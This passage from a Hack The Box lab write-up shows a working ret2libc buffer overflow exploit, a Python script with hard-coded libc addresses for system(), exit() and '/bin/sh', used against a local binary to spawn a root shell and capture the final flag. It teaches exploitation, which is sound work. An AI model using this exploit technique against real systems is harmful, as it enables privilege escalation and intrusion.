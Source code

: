 I create a new exploit, but this time it is no longer necessary to perform the calculation of the addresses of **system()**, **exit()** and **/bin/sh**, so the exploit turns out to have fewer steps and easier to exploit, I no longer need to perform a brute force attack because I have the exact address of **libc**. Moreover, when I run my new exploit, I get the **shell** instantly and again I can access the last flag to validate before **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** the lab **engagement**.

```bash
nano bof_exploit.py 
cat !$
```

> **bof_exploit.py**:

```python
#!/usr/bin/python3

import signal,sys
from struct import pack
from subprocess import call

def def_handler():
	print("\n\n[!] Exiting ...\n")
	sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
# for i in $(seq 1 50); do ldd /usr/local/bin/ovrflw | grep libc | grep -oP '\(.*?\)' | tr -d '()'; done
libc_address = 0xb7e44000
offset = 112

def exploit():
	before_eip = b"A" * offset

	# gdb-peda$ p system
	# $1 = {<text variable, no debug info>} 0xb7e62310 <__libc_system>
	# gdb-peda$ p exit
	# $2 = {<text variable, no debug info>} 0xb7e55260 <__GI_exit>
	# gdb-peda$ find "/bin/sh"
	# Searching for '/bin/sh' in: None ranges
	# Found 1 results, display max 1 items:
	# libc : 0xb7f84bac ("/bin/sh")

	system_address = pack("<I", 0xb7e62310)
	exit_address = pack("<I", 0xb7e55260)
	bin_sh_address = pack("<I", 0xb7f84bac)

	eip = system_address + exit_address + bin_sh_address
	payload = before_eip + eip

	return payload

if __name__ == '__main__':

	payload = exploit()
	while True:
		response = call(["/usr/local/bin/ovrflw", payload])
		if response ==0:
			print("\n\n[!] Successful exploitation\n")
			sys.exit(0)
```
